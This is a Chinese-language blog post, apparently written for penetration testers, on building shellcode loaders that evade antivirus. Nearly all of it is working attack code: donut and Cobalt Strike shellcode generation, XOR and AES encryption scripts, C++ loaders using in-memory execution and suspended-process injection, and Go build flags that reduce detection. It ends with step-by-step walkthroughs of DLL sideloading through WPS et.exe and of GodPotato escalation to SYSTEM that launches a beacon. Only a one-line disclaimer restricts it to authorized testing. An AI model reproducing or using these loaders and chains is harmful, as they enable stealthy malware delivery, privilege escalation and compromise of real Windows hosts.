



从 EXE/Beacon 提取或 Cobalt Strike 直接生成 shellcode，经 XOR/AES 加密后，可通过独立加载器或白加黑 DLL 在目标环境解密执行。本文按「生成 → 加密 → 加载 → 交付」梳理完整链路，并给出 CS 白加黑与 GodPotato 两个实战案例。

<!--more-->


仅供授权渗透测试、安全研究与防御评估使用。请勿用于未授权系统。


## 整体流程



白加黑 DLL 劫持原理详见已发布文章：[Windows 白加黑技术剖析](https://blog.leeissonba.com/posts/windows-dll-hijacking-analysis/)。

## 一、生成 Shellcode

### 1.1 从 EXE 提取（donut / go-donut）

**go-donut**（仅输出 bin 格式）：[Binject/go-donut](https://github.com/Binject/go-donut)

```bash
./go-donut -i windows_amd64.exe   # 注意必须有后缀，否则生成的 bin 不可用
```

**donut**（推荐）：[TheWover/donut](https://github.com/TheWover/donut)

```bash
# -f 3：C 类型 shellcode；-z 2：压缩
donut.exe -i windows_i386.exe -f 3 -z 2
```


shellcode 位数必须与**最终执行它的进程**一致。例如白加黑宿主 `et.exe` 为 x64，则 CS / donut 也必须出 x64；x86 shellcode 进 x64 进程会直接崩溃。


### 1.2 从 Cobalt Strike 直接生成

1. CS → **Attacks → Packages → Payload Generator**（输出 C 格式 shellcode；`Windows Executable (S)` 生成的是可执行文件，不是本文所用的字节数组）
2. 输出格式选 **C**，得到形如 `unsigned char buf[] = "\x90\x90...";` 的数组
3. 若走本文的 Python 加密脚本：需得到**原始二进制** `.bin`（不要只去掉 `\x` 留下十六进制文本；可用脚本把 `\xHH` 转为字节，或直接导出/转换 bin）
4. 进入第二章加密，再交由白加黑 DLL 或独立加载器执行

## 二、加密方式

### 2.1 XOR 异或加密解密

#### Python 加密

```python
import sys

def xor_encrypt(shellcode, key):
    encrypted_shellcode = bytearray()
    key_len = len(key)
    for i in range(len(shellcode)):
        encrypted_shellcode.append(shellcode[i] ^ key[i % key_len])
    return encrypted_shellcode

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 ShellcodeEncrypt.py <payload.bin> <payload.dat>")
        return

    with open(sys.argv[1], "rb") as file:
        shellcode = bytearray(file.read())

    key = bytearray(b'henry123456aa+-==@asd')
    encrypted_shellcode = xor_encrypt(shellcode, key)

    with open(sys.argv[2], "wb") as output_file:
        output_file.write(encrypted_shellcode)

if __name__ == '__main__':
    main()
```

#### C++ 解密

```cpp
#include <Windows.h>
#include <cstdio>
#include <cstring>
#include <cstdlib>

void* FileToMem(const WCHAR* FilePath, _Out_ DWORD& BufSize)
{
    FILE* file;
    if (_wfopen_s(&file, FilePath, L"rb") != 0 || !file)
        return nullptr;

    fseek(file, 0, SEEK_END);
    BufSize = ftell(file);
    fseek(file, 0, SEEK_SET);

    void* RetVoid = malloc(BufSize);
    if (!RetVoid) {
        fclose(file);
        return nullptr;
    }

    fread(RetVoid, 1, BufSize, file);
    fclose(file);
    return RetVoid;
}

// 从与可执行文件同名的 .dat 文件中读取加密 shellcode
WCHAR szFilePath[MAX_PATH + 1] = { 0 };
GetModuleFileName(NULL, szFilePath, MAX_PATH);
lstrcpyW((szFilePath + (lstrlenW(szFilePath) - 3)), L"dat");

DWORD size;
void* buffer = FileToMem(szFilePath, size);

if (buffer) {
    char* shellcode = new char[size];
    memcpy(shellcode, buffer, size);
    free(buffer);

    const char key[] = "henry123456aa+-==@asd";
    int keylength = strlen(key);

    for (DWORD i = 0; i < size; i++) {
        shellcode[i] ^= key[i % keylength];
    }
    // shellcode 已解密，长度为 size
}
```

### 2.2 AES 加密解密

依赖：[tiny-AES-c](https://github.com/kokke/tiny-AES-c)（将 `aes.c`、`aes.h`、`aes.hpp` 加入项目）

#### Python 加密


需安装 `pycryptodome`：`pip uninstall crypto pycrypto && pip install pycryptodome`


```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import sys

def main():
    key = b'0123456789abcdef'
    iv = b'0123456789abcdef'

    if len(sys.argv) != 3:
        print("Usage: python3 shellcodeAESenc.py <payload.bin> <payload.dat>")
        return

    with open(sys.argv[1], "rb") as file:
        shellcode = bytearray(file.read())

    print("Original Shellcode Size:", len(shellcode))

    cipher = AES.new(key, AES.MODE_CBC, iv)
    padded_data = pad(shellcode, AES.block_size)
    encrypt = cipher.encrypt(padded_data)

    with open(sys.argv[2], "wb") as output_file:
        output_file.write(encrypt)

if __name__ == '__main__':
    main()
```

#### C/C++ 解密

```cpp
#include <Windows.h>
#include <cstdio>
#include <cstring>
#include <cstdlib>
#include "aes.hpp"

void* FileToMem(const WCHAR* FilePath, _Out_ DWORD& BufSize)
{
    FILE* file;
    if (_wfopen_s(&file, FilePath, L"rb") != 0 || !file)
        return nullptr;

    fseek(file, 0, SEEK_END);
    BufSize = ftell(file);
    fseek(file, 0, SEEK_SET);

    void* RetVoid = malloc(BufSize);
    if (!RetVoid) {
        fclose(file);
        return nullptr;
    }

    fread(RetVoid, 1, BufSize, file);
    fclose(file);
    return RetVoid;
}

int main() {
    WCHAR szFilePath[MAX_PATH + 1] = { 0 };
    GetModuleFileName(NULL, szFilePath, MAX_PATH);
    lstrcpyW((szFilePath + (lstrlenW(szFilePath) - 3)), L"dat");

    DWORD size;
    void* buffer = FileToMem(szFilePath, size);

    if (buffer) {
        char* shellcode = new char[size];
        memcpy(shellcode, buffer, size);
        free(buffer);

        // 长度须为 16 字节；勿用带尾随 '\0' 的字符串字面量当 key/iv
        unsigned char key[16] = {
            '0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f'
        };
        unsigned char iv[16] = {
            '0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f'
        };
        // PKCS7 填充后密文更长；originSize 必须填加密脚本打印的 Original Shellcode Size
        DWORD originSize = 36999;  // 示例值，按实战输出修改
        unsigned char* ushellcode = reinterpret_cast<unsigned char*>(shellcode);

        struct AES_ctx ctx;
        AES_init_ctx_iv(&ctx, key, iv);
        // size 须为 16 的倍数（与 Python pad 后长度一致）
        AES_CBC_decrypt_buffer(&ctx, ushellcode, size);

        DWORD dwOldPro = 0;
        VirtualProtect(ushellcode, originSize, PAGE_EXECUTE_READWRITE, &dwOldPro);
        EnumUILanguages((UILANGUAGE_ENUMPROC)(char*)ushellcode, 0, 0);

        // shellcode 若常驻内存（如 beacon），此处不可 delete[]
    }
}
```

### 2.3 RSA 加密解密

参考：[RSA 加密 shellcode 实践](https://mp.weixin.qq.com/s/jkdQwRzmNGmCJztN4KBztw)

## 三、加载方式

### 3.1 VirtualProtect 动态更改内存属性并执行


`EnumUILanguages` 等 API 把 shellcode 当回调调用，是常见执行方式。参数会被传入，多数 PIC shellcode 可忽略。若载荷常驻（beacon），执行后**不要** `delete[]` / `free` 这块内存。


```cpp
char* shellcode = ...;
DWORD size = ...;

DWORD dwOldPro = 0;
VirtualProtect(shellcode, size, PAGE_EXECUTE_READWRITE, &dwOldPro);
EnumUILanguages((UILANGUAGE_ENUMPROC)shellcode, 0, 0);
// 常驻 shellcode：不要在这里释放 shellcode
```

### 3.2 傀儡进程注入（挂起进程改入口）

> 此处是：挂起创建进程 → 远程分配写入 shellcode → `SetThreadContext` 改入口 → 恢复执行。  
> **不是**经典 Process Hollowing（卸载原映像再替换 PE）。


此方式无法免杀 Avast，实测可免杀 Windows Defender。下列示例为 **x86**（使用 `Eip`）；x64 应改用 `Rip`，并将目标进程改为同架构。


```cpp
char* shellcode = ...;
DWORD size = ...;

PROCESS_INFORMATION ProcessInformation = {};
STARTUPINFOA StartupInfo = {};
void* remote = nullptr;
CONTEXT Context = {};
DWORD DwWrite = 0;

StartupInfo.cb = sizeof(StartupInfo);

// 0x4 = CREATE_SUSPENDED；命令行需可写缓冲区（勿直接传字符串字面量）
char cmdLine[] = "C:\\Windows\\explorer.exe";
BOOL result = CreateProcessA(
    nullptr, cmdLine, nullptr, nullptr, FALSE, CREATE_SUSPENDED,
    nullptr, nullptr, &StartupInfo, &ProcessInformation
);

if (result) {
    Context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(ProcessInformation.hThread, &Context);
    remote = VirtualAllocEx(
        ProcessInformation.hProcess, nullptr, size,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
    );
    WriteProcessMemory(ProcessInformation.hProcess, remote, shellcode, size, &DwWrite);
    Context.Eip = (DWORD)(uintptr_t)remote;  // x86 only
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hProcess);
}

delete[] shellcode;
```

### 3.3 VirtualAlloc 分配内存并执行

```cpp
char* shellcode = ...;
DWORD size = ...;

LPVOID allocatedMemory = VirtualAlloc(
    NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE
);
if (allocatedMemory == NULL) {
    delete[] shellcode;
    return;
}

memcpy(allocatedMemory, shellcode, size);
void(*shellcodeFunction)() = (void(*)())allocatedMemory;
shellcodeFunction();
// 常驻 shellcode：不要 VirtualFree(allocatedMemory, ...)
```

## 四、现成加载器

| 工具 | 说明 |
|------|------|
| [Gllloader](https://github.com/INotGreen/Gllloader) | 集成 C/C++、C#、Nim、PowerShell 免杀加载器 |
| [GobypassAV-shellcode](https://github.com/Pizz33/GobypassAV-shellcode) | Go 实现的 shellcode 加载器（效果随杀软版本变化，需自行验证） |


某次测试中，远程加载方式可过 Defender（2023-07-13）；不能当作长期结论。


**Go 编译（推荐，减小特征）：**

```bash
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-w -s -H windowsgui" -o out.exe
```

**默认编译（容易被杀）：**

```bash
GOOS=windows GOARCH=amd64 go build
```

## 五、实战案例

### 5.1 CS Shellcode + 加密 + 白加黑 DLL 解密

典型链路：**CS 生成 shellcode → XOR 加密存盘 → 恶意 DLL 读取解密执行 → 白 EXE 触发加载**。



DLL 劫持与搜索顺序原理见 [Windows 白加黑技术剖析](https://blog.leeissonba.com/posts/windows-dll-hijacking-analysis/)。

#### Step 1：发现可利用白文件

以 WPS 为例：`et.exe` 等程序依赖同目录下某个 DLL，构造同名恶意 DLL 即可劫持加载。




#### Step 2：改造 DLL

1. 用 **AheadLib** 解析原始 DLL，导出函数转发桩




2. VS 新建 DLL 项目，导入生成的代码




3. 在导出函数或**延迟执行**路径中写入：**读加密文件 → XOR 解密 → 执行 shellcode**（见第二、三章）


`DllMain`（`DLL_PROCESS_ATTACH`）处于 loader lock：不宜在此加载 CLR、创建复杂线程同步、跑 GodPotato / donut 的 .NET shellcode 等。常见做法是 `CreateThread` 把解密与执行放到新线程，或放到导出函数中，待 `LoadLibrary` 返回后再跑。


4. 编译设置：
   - asm 文件属性 → 自定义
   - C/C++ → 代码生成 → 运行库 → **多线程 (/MT)**
   - C/C++ → 预编译头 → **不使用预编译头**
   - 链接器 → 调试 → 生成调试信息 → **否**
   - 平台选与白文件一致的 **Win32 / x64**

#### Step 3：生成并加密 shellcode

1. CS 用 **Payload Generator** 导出 C 格式，再转为原始 `.bin`（供加密脚本按二进制读取）



2. 用 XOR 脚本加密，保存为与 DLL 读取逻辑**约定一致**的文件名


第二章示例用 `GetModuleFileName` 把宿主 EXE 的扩展名改成 `.dat`（如 `et.exe` → `et.dat`）。若 DLL 写死读 `xx.ini`，则加密输出也必须叫 `xx.ini`。名称不一致会读文件失败。

同一密钥对数据 XOR **偶数次**等于未加密，**奇数次**等价于一次；要「多层」需换不同密钥，并按相反顺序解密。




```bash
python3 ShellcodeEncrypt.py payload.bin et.dat
```

#### Step 4：上线

将 **白 EXE + 恶意 DLL + 加密 shellcode 文件** 放同一目录，执行白 EXE 即可上线。




用 Go 写 DLL 时，可在 `init()` 里启动逻辑，但同样应避免在持有 loader lock 时做重活；更稳妥是 `init()` 里只 `CreateThread`，真正解密执行放到线程函数中。Go DLL 还需注意运行时与 c-shared 导出配置。


```go
func init() {
    // 建议：go func() { 读 .dat → 解密 → 执行 }()
    // 不要在 init 里同步跑耗时/加载 CLR 的逻辑
}
```

### 5.2 GodPotato + 白加黑

项目：[GodPotato](https://github.com/BeichenDream/GodPotato)

**链路：** 在**已具备提权条件**的会话里，用白加黑拉起 GodPotato shellcode → GodPotato 提权到 SYSTEM → 再拉起 beacon。


GodPotato 依赖当前 token 的 **SeImpersonatePrivilege**（常见于服务账户、IIS 应用池、SQL Server 代理等）。普通桌面用户双击 `et.exe` **通常无法**提到 SYSTEM。白加黑解决的是「落地执行」，不是「无条件提权」。



- **白加黑（et.exe + 恶意 DLL + et.dat）**：在当前（已有 SeImpersonate 的）进程上下文中解密并执行 GodPotato shellcode。
- **GodPotato 写死的 cmd**：指向 **beacon**（或其他要 SYSTEM 权限执行的载荷），**不要**再指向同一个 `et.exe`。
- **donut 转换的 GodPotato**：属于 CLR/.NET 加载型 shellcode，务必在 DllMain 外（如 `CreateThread`）执行，见 §5.1。




#### Step 1：修改 GodPotato，写死 beacon 命令

```csharp
potatoArgs = new newgodArgs
{
    // 指向目标上的 beacon，而非白文件 et.exe
    cmd = "cmd /c c:\\users\\public\\downloads\\beacon.exe"
};
```

编译为 `newgod.exe`。

#### Step 2：donut 提取 shellcode

```dos
donut.exe -i newgod.exe
```

输出示例：

```text
[ Shellcode     : "loader.bin"
[ File type     : .NET EXE
[ Target CPU    : x86+amd64
```

#### Step 3：加密 shellcode

```bash
python3 ShellcodeEncrypt.py loader.bin loader.dat
```

将 `loader.dat` 改名为加载器约定名称（如与白文件对应的 `et.dat`）。

#### Step 4：部署上线

将以下文件放到**同一目录**（路径需与 Step 1 中写死的 beacon 路径一致），例如 `C:\Users\Public\Downloads`：

| 文件 | 作用 |
|------|------|
| `et.exe` | 白文件，触发 DLL 加载 |
| `krpt.dll` | 恶意 DLL：读 `et.dat` → 解密 → 执行 |
| `et.dat` | 加密后的 GodPotato shellcode |
| `beacon.exe` | GodPotato 提权后实际拉起的载荷 |

执行 `et.exe` 后：DLL 在合适时机（非 DllMain 重活）解密执行 GodPotato shellcode →（在具备 SeImpersonate 时）提权 → 以 **SYSTEM** 执行 `beacon.exe`。


`beacon.exe` 以明文落盘仍可能被杀软拦；实战中常对 beacon 再做免杀或改用内存执行链路。本文只演示 GodPotato 与白加黑的衔接关系。

